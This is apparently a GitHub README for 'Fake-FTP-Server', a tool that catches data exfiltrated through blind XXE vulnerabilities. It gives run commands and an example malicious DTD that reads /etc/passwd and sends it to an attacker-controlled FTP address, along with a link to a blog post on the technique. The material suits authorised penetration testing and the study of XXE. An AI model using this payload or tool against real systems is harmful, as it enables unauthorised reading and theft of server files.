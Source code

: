 # Fake-FTP-Server
This is a fake ftp server to receive data when you exploit blind XXE vulnerabilities to read files.    
[原理： https://zoiltin.github.io/2023/11/22/%E7%9B%B2XXE%E4%B8%ADFTP%E5%8D%8F%E8%AE%AE%E7%9A%84%E5%88%A9%E7%94%A8/](https://zoiltin.github.io/2023/11/22/%E7%9B%B2XXE%E4%B8%ADFTP%E5%8D%8F%E8%AE%AE%E7%9A%84%E5%88%A9%E7%94%A8/)

### Usage:
```
python fake-ftp-server.py PORT output-file

python fake-ftp-server.py 1234 res.txt
```
The fake server will run on PORT.        
The program may use another port for auxiliary (default is 63568), if it is occupied, please change it by yourself!

The evil dtd is like:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'ftp://IP:PORT/%file;'>">
```
![example](./images/example.png)